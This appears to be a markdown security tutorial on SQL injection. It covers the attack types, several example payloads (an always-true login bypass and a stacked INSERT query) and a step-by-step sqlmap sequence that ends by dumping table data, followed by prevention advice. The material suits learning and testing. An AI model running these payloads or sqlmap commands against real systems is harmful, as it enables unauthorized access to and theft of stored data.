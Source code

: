 # SQL Injection

SQL injection attack consists of insertion of either a partial or complete SQL query via the data input from the client (Browser) to application Server.

## Impact

A successful SQL injection attack can result in:
- Authentication Bypass 
- Unauthorized access of sensitive data, like: Personal user information, Passwords, Credit card details, etc.
- Attacker can obtain a persistent backdoor into an organization's systems.

## SQL Injection Technique

### 1. In-band SQLi (Classic SQLi)
   - ***Error-based SQLi:*** this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
   - ***Union-based SQLi:*** can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
 
### 2. Inferential SQLi (Blind SQLi)
   - ***Boolean-based:*** use Boolean condition(s) to verify whether certain conditions are true or false.
   - ***Time-based:*** use database commands (e.g. sleep) to delay answers in conditional queries. It useful when attacker doesn’t have some kind of answer (result, output, or error) from the application

### 2. Out-of-band SQLi
   This technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).

### Second-order SQL injection (also known as stored SQL injection):
First-order SQL injection arises where the application takes user input from an HTTP request and,in the course of processing that request, incorporates the input into an SQL query in an unsafe way.

In second-order SQL injection, the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability arises at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into an SQL query in an unsafe way.

## Standard SQL Injection Testing

### Example 1 (classical SQL Injection):
Consider the following SQL query:
```
SELECT * FROM Users WHERE Username='$username' AND Password='$password'
$username = 1' or '1' = '1
$password = 1' or '1' = '1
The query will be:
SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1' 
```

### Example 2 (simple SELECT statement):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10
```

### Example 3 (Stacked queries):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10; INSERT INTO users (…)
```
- More Information: https://www.owasp.org/index.php/SQL_Injection
![image](https://user-images.githubusercontent.com/65315090/129912785-f84232fc-a41a-4520-92fa-6c7dfe803e70.png)
![image](https://user-images.githubusercontent.com/65315090/129912819-124fbe54-d140-4133-8a99-0a3092ba3b15.png)

## Tools for SQL Injection

### [SQLMap](https://sqlmap.org/)

**Step-1:** Find Current Database name
  `sqlmap –u http://www.nayan.com/item_id=3 --level=5 --risk=3 --current-db --batch`

**Step-2:** List DBMS database
  `sqlmap –u http://www.nayan.com/item_id=3 --dbs`

**Step-3:** List Tables
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename --tables`
  
**Step-4:** List columns on tables
	`sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info --columns`
  
**Step-5:** List column data from columns
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info –C login --dump`

## Prevent SQL injection

1. Prevented by using ***Parameterized queries***, instead of string concatenation within the query. (also known as ***Prepared statements***)
2. Filter out special charactercharacter like:`' " - # / \ ; NULL , () @` in all strings from:
   - Input from users
   - Parameters from URL
   - Values from cookie

Mitigation: https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet

## Refrence
- https://portswigger.net/web-security/sql-injection
